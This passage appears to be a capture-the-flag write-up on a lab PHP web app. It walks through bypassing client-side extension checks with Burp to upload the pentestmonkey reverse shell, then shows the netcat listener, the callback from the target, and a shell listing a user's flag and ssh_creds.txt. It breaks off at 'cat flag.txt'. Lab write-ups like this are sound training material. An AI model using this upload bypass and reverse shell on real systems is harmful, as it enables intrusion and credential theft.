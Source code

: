 Looking at the page source we can see that there is a file upload validation script in place. Looking at it closely it seems like it only checks for the extension, if the extension is either jpg or png. No other front-end validation is in place. We could possibly bypass this validation and upload a reverse shell (unless there is a backend validation in place).

Let’s intercept this request in Burp and change the file extension to see if we can bypass the file extension validation and upload a reverse shell.

We know that this application is built with php, let’s use a well known php reverse shell from [**pentestmonkey**](https://github.com/pentestmonkey/php-reverse-shell) and set the lhost and lport values accordingly.

Now, lets rename the file with an extension jpg/png to bypass the file extension validation that is in place and then upload the file and intercept the request.

![](https://miro.medium.com/v2/resize:fit:700/1*KG2MqQNBsH2oMHTs1zVkuQ.png)

Now change the file extension to **.php** and forward the request.

![](https://miro.medium.com/v2/resize:fit:700/1*78uOrgo6Y87AdTIgjL2APA.png)

Looking at the web page we can see that the file has been uploaded successfully and it indicates that the path of the uploaded file can be seen in the source page.

![](https://miro.medium.com/v2/resize:fit:700/1*SYj-uvyVz_6_fTWYJCWDXA.png)

Looking at the page source we can see that the file is uploaded under the directory **_/upload_thm_1001_**

![](https://miro.medium.com/v2/resize:fit:700/1*z8yDiCan8pswPsd8Hkw4Rw.png)

Looking under the directory **_/upload_thm_1001_** we can see the uploaded file.

**_NOTE_** _: This route comes under the directory_ **_/upload-cv00101011_**

![](https://miro.medium.com/v2/resize:fit:700/1*HtKPKFr9cjnO3qhviOqLXQ.png)

# **Let’s get a shell on this machine…**

Lets Setup a netcat listener and navigate to the file that we uploaded.

Looking at the netcat listener we can see that we got a shell.

```s
~ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.6.42.185] from (UNKNOWN) [10.10.222.102] 42422
Linux ip-10-10-222-102 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 01:01:50 up 36 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$ python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 2: python: not found
$ cd /home
$ ls
ubuntu
zeamkish
$ cd zeamkish
$ ls -l
total 8
-rw-r----- 1 zeamkish zeamkish 27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish 34 Jun 11  2023 ssh_creds.txt
$ cat flag.txt
```
